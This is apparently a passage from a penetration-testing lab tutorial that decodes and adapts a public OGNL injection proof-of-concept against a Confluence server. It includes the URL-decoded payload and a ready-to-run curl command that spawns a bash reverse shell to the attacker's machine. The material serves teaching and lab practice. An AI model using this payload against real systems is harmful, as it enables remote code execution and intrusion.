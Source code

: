 The verbose (**\-v**) **curl** request is being made to **http://10.0.0.28:8090**, which we assume is the blogpost author's vulnerable Confluence server. After this, the URL [_path_](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier#Syntax) looks more interesting. We observe that a lot of the characters in it are [_URL encoded_](https://en.wikipedia.org/wiki/Percent-encoding), so we need to _URL decode_ them to get a clearer sense of what the payload actually does.

You can quickly URL decode strings by selecting _Decode As..._ > _URL_ in the _Decoder_ tab in [_Burp_](https://portswigger.net/burp), or using an online tool such as [_CyberChef_](https://gchq.github.io/CyberChef/) If working with sensitive information in a real corporate environment, you should avoid pasting data into online tools. However, in this case we're decoding a proof-of-concept that's already public, so we can use online tools if necessary.

After URL decoding the path, the function of the payload is clearer.

```
/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}/
```

> Listing 2 - The example payload URL-decoded.

The URL path is an _OGNL injection_ payload. OGNL is [_Object-Graph Notation Language_](https://en.wikipedia.org/wiki/OGNL), an expression language commonly used in Java applications. OGNL injection can take place when an application handles user input in such a way that it gets passed to the OGNL expression parser. Since it's possible to execute Java code within OGNL expressions, OGNL injection can be used to execute arbitrary code.

The OGNL injection payload itself uses Java's [_ProcessBuilder_](https://docs.oracle.com/javase/7/docs/api/java/lang/ProcessBuilder.html) class to spawn a _Bash_ interactive reverse shell (_bash -i_).

This proof-of-concept payload is almost perfect for our needs. However, we need to modify it before we can use it. This is for two reasons. First, the Confluence server that the payload is pointing to in the original payload is not where our vulnerable Confluence server is. Second, the Bash reverse shell payload is pointing at port 1270 on 10.0.0.28, which is not where our Kali machine is. We need to modify these parameters in the payload before we can reuse it to exploit CONFLUENCE01 and return a shell to our own Kali machine.

While making these modifications, we also need to take the URL encoding into account. The payload string in the proof-of-concept isn't completely URL encoded. Certain characters (notably ".", "-" and "/") are not encoded. Although it's not always the case, for _this_ exploit, this turns out to be important to the functioning of the payload. If any of these characters are encoded, the server will parse the URL differently, and the payload may not execute. This means we can't apply URL encoding across the whole payload once we've modified it.

Keeping this in mind, we'll manually modify the parameters we need, using the original proof-of-concept payload as our base. We can change the Confluence server IP to **192.168.50.63**, and the Bash interactive shell payload IP and port to a listener we're going to open on our Kali machine (**/dev/tcp/192.168.118.4/4444**). We'll also remove the **curl** verbosity flag. This leaves us with the following modified payload:

```
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.118.4/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```
